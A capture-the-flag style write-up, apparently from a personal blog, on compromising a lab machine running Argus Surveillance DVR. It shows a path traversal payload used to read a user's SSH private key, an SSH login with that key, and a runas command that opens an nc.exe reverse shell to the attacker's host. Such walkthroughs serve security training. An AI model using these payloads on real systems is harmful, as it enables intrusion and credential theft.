

repository: gmrvh/blog · page: pg/dvr4/index.html · generator: mkdocs

# DVR4 -  Writeup
## Initial Enumeration
### Port Scanning
The target has several open ports, with the most interesting being port 8080 where a web server is running.
### Web Server Enumeration (Port 8080)
Initial directory discovery revealed several web pages related to a camera system:
```
200 GET    42l    88w  1198c http://192.168.185.179:8080/pda/Cameras.html
200 GET    42l    88w  1187c http://192.168.185.179:8080/pda/cam80x60.html
200 GET    75l   218w  2349c http://192.168.185.179:8080/CamerasBottomFrame.html
200 GET    82l   245w  2706c http://192.168.185.179:8080/ActiveXIFrame.html
200 GET   655l  1718w 29575c http://192.168.185.179:8080/CamerasTopFrame.html
200 GET    23l    73w   985c http://192.168.185.179:8080/
200 GET    45l    92w  1256c http://192.168.185.179:8080/pda/cam320x240.html
200 GET    42l    88w  1195c http://192.168.185.179:8080/pda
```
### Local File Inclusion (LFI) Discovery
After testing various endpoints, I discovered a vulnerable LFI parameter on the Cameras.html page:
```
http://192.168.185.179:8080/pda/Cameras.html?RESULTPAGE=../../../../../../../../
```
This allowed for traversing the file system. Extensive LFI testing revealed numerous accessible files including:
- System configuration files
- Windows logs
- User directories
## Exploitation
### Credentials via SSH Key
Using the LFI vulnerability, I was able to view the SSH private key for the "Viewer" user:
```
http://192.168.185.179:8080/pda/Cameras.html?RESULTPAGE=../../../../../../../../Users/Viewer/.ssh/id_rsa
```
I downloaded this key, set appropriate permissions, and logged in via SSH:
```bash
chmod 600 id_rsa
ssh -i id_rsa Viewer@192.168.185.179
```
### Privilege Escalation
#### Information Gathering
After gaining initial access as the Viewer user, I explored the system and identified that the machine was running Argus Surveillance DVR software.
#### Password Decryption
The Argus DVR software uses weak password encryption. Located configuration file containing encrypted credentials:
```
C:\ProgramData\PY_Software\Argus Surveillance DVR\DVRParams.ini
```
Using publicly available information about Argus DVR's encryption method, I was able to decrypt the administrator password.
#### Administrator Access
With the administrator credentials, I used the runas command to gain a privileged reverse shell:
```
runas /user:administrator "C:\users\viewer\desktop\nc.exe -e cmd.exe 192.168.49.57 443"
```
This gave me a reverse shell with SYSTEM privileges, allowing complete control of the machine.
